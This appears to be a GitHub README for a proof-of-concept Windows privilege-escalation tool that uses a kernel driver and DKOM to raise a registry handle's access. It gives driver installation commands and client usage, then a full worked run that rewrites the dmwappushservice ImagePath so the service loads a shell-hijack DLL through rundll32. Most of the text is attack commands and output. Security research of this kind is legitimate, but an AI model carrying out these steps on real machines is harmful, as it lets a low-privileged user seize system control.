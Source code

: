 # ElevateHandle

PoCs to elevate handle access with DKOM method.

## Installation

```
PS C:\> sc.exe create ElevateHandle type= kernel binpath= C:\Dev\ElevateHandleDrv_x64.sys
PS C:\> sc.exe start ElevateHandle
```

## Client Program Usage

This technique requires a handle to the target object.
It is rare cases that low privileged process can get handles to high privileged process, so this client program performs service's binary path modification.

```
PS C:\Dev> .\ElevateHandleClient.exe -h

ElevateHandleClient - Client for ElevateHandleDrv.

Usage: ElevateHandleClient.exe [Options]

        -h, --help    : Displays this help message.
        -n, --name    : Specifies a service name to overwrite ImagePath value.
        -c, --command : Specifies a command to set ImagePath value.

[!] -n option is required.
```

For example, in Windows 10/11, we can start `dmwappushservice` service any users.
If attacers succeeds in tampering service registry key, it leads privilege escalation as follows:

```
PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p

PS C:\Dev> C:\Dev\ElevateHandleClient.exe -n dmwappushservice -c "C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry"

[+] Got a service key handle.
    [*] Registry Key Path : \REGISTRY\MACHINE\SYSTEM\CurrentControlSet\Services\dmwappushservice
    [*] Granted Access    : KEY_QUERY_VALUE
[*] Current ImagePath is "%SystemRoot%\system32\svchost.exe -k netsvcs -p".
[>] Sending a query to \??\ElevateHandle.
[+] Got a handle to \??\ElevateHandle (Handle = 0x28C).
[>] Sending a query to \??\ElevateHandle.
[+] Granted Access is elevated to KEY_ALL_ACCESS.
[+] ImagePath value is overwritten successfully.
[*] Done.

PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry

PS C:\Dev> sc.exe start dmwappushservice
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

PS C:\Dev>
```

![](./figures/ElevateHandle.png)